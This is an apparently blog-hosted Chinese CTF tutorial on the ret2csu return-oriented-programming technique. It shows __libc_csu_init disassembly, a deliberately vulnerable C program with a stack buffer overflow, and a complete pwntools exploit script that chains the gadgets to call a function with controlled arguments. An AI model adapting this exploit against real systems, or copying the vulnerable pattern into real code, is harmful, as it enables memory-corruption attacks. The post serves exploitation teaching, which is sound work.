 ```yaml
---
title: 「PWN」最基础的 ret2csu
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


# RET2CSU

## 0x01 为什么需要 ret2csu？

在 64bits 的 ELF 文件中，函数调用的前六个参数是分别存放在*rdi、rsi、rdx、rcx、r8、r9*这六个寄存器当中的，而我们在实际构建 ROP 时很难找到对应的 gadgets（大部分情况下是找不到 rdx），而 ret2csu 的关键点就在于使用`__libc_csu_init()`来获取两个 gadgets 来进行万能传参（同时泄露出函数真实地址）

<!--truncate-->

## 0x02 \_\_libc_csu_init()

`__libc_csu_init()`是用来对 libc 进行初始化操作的函数，而绝大部分软件都会调用到 libc，因此我们可以认为`__libc_csu_init()`基本算程序通用的函数之一

。这里，我们随便打开一个 64bitELF 文件查看一下它。

```assembly
.text:0000000000401250 loc_401250:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401250                 mov     rdx, r14
.text:0000000000401253                 mov     rsi, r13
.text:0000000000401256                 mov     edi, r12d
.text:0000000000401259                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040125D                 add     rbx, 1
.text:0000000000401261                 cmp     rbp, rbx
.text:0000000000401264                 jnz     short loc_401250
.text:0000000000401266
.text:0000000000401266 loc_401266:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401266                 add     rsp, 8
.text:000000000040126A                 pop     rbx
.text:000000000040126B                 pop     rbp
.text:000000000040126C                 pop     r12
.text:000000000040126E                 pop     r13
.text:0000000000401270                 pop     r14
.text:0000000000401272                 pop     r15
.text:0000000000401274                 retn

```

从这里我们可以看出，我们可以让`r15+rbx*8`为我们所要执行函数的指针，`edi、rsi、rdx`可以分别作为函数的参数

在通常情况下，我们一般让`rbx=0，rbp=1`，这样可以赋值`r15`为指向函数的指针，如此一来便大大化简了我们使用 gadgets 的难度。

## 0x03 实战

在这里，我只准备对 ret2csu 的原理进行探究（因为还有半个小时就要打 HGAME 辣），所以我写了一个简单的程序，它会直接泄露出函数实际地址

source:

```c
#include<stdio.h>
#include<unistd.h>

int vul(int a,int b,int c){
    if(c == 233)
        printf("Big Hacker!\n");
    return 0;
}

int main(){
    char buf[30];
    int (*ptr)(int a,int b,int c) = vul;
    printf("gift: %p\n", &ptr);
    read(0,buf,0x100);
    return 0;
}

```

编译:

```bash
gcc -m64 -fno-stack-protector -no-pie ret2csu_64bits.c -o ret2csu_64bits
```

很简单，我们只需要利用`__libc_csu_init()`将 rdx 赋值为 233 就好了

而我们使用 ROPgadgets 可以发现是没有一个 gadgets 能让我们这样做的

![ROPgadgets](https://oss.nova.gal/img/image-20220120193316710.png)

这时候我们就需要进行 ret2csu 了

```python
def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload
```

值得注意的是，执行完 gadget1 之后，程序顺序执行会再次执行 gadget2，因此，我们需要再填充一次`(7*0x8)`的垃圾数据防止出现错误

完整 payload：

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./ret2csu_64bits')
elf = ELF('./ret2csu_64bits')

sh.recvuntil(b"gift: ")
vul_addr = int(sh.recvline(), 16)
csu_gadget1_addr = 0x401250
csu_gadget2_addr = 0x401266


def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload

gdb.attach(sh)
payload = b'A'*(0x20+0x08) + csu(csu_gadget1_addr, csu_gadget2_addr, 0, 1, 0, 0, 233, vul_addr, elf.sym['main'])
sh.sendline(payload)
sh.interactive()

```
